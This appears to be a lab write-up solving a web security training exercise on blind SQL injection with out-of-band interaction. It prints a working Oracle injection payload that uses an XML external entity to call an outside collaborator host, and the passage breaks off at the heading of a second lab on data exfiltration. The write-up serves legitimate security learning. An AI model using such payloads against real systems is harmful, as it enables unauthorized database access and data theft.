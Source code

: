 
### LAB 16 - Blind SQL injection with out-of-band interaction

### Lab Description

![image](https://github.com/user-attachments/assets/1fc90fa9-efdd-4b3b-983b-c81474c9f3cc)

### Solution

We don't know which database we are dealing with , so we try all the payloads for each databases given in cheatsheat.

![image](https://github.com/user-attachments/assets/dd91c0c1-e67f-412a-9fcb-074756ab6bb0)


First we start with ORACLE db,

Open burp collaborator client, copy one of the domain provided to clipbopard,

![image](https://user-images.githubusercontent.com/67383098/235473410-2fbcfcda-6aa3-4d9e-93ac-7159d6764ef8.png)

Use the payload 

```sql
' union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

So the query would made to db would look like this ,

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>' union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

This triggers a DNS request to our collaborater server, and once we get a `200 OK` response, if we click `Poll Now` button in Burp Collaborator, we get **4 DNS requests**

![image](https://github.com/user-attachments/assets/0109a88b-7d43-4a68-9bd6-38e6059d3e45)

![image](https://github.com/user-attachments/assets/98a265a8-9831-4762-9fc3-7a1b29b7432c)
---

### LAB 17 - Blind SQL injection with out-of-band data exfiltration

### Lab Description

![image](https://github.com/user-attachments/assets/afead458-31b5-439d-a2a9-f2a7abcec26a)

### Overview

